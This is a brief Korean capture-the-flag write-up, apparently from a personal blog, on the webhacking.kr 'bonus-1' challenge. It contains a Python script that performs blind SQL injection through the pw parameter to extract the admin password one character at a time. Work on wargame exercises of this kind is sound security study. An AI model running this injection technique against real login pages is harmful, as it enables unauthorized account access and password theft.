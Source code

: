 ![스크린샷 2020-01-06 오후 8.54.26](/Users/shift_chill/Desktop/스크린샷 2020-01-06 오후 8.54.26.png)

![스크린샷 2020-01-06 오후 8.54.32](/Users/shift_chill/Desktop/스크린샷 2020-01-06 오후 8.54.32.png)

해결하였다. 원래 문제가 id 두 개랑 pw 두 개를 파이썬 코드로 쉽게 구하는 것 같은데

id 를 admin 으로 예상하여 쿼리문을 던진 거라 관련 코드를 다시 한 번 작성해봐야겠다.



```
import requests

cookies={'PHPSESSID':'쿠키값'}
url="https://webhacking.kr/challenge/bonus-1/index.php?id="

id='admin'
flag=""
for i in range(1,37):
    for j in range(127,90,-1):
        query=id+"&pw=%27or+ascii%28substr%28pw%2C"+str(i)+"%2C1%29%29%3D"+str(j)+"%23"
        geturl=url+query
        res=requests.get(geturl,cookies=cookies)
        if((res.text).find("wrong password")>0):
            flag+=chr(j)
            print (flag)
            break

print ("finish flag :"+flag)
```



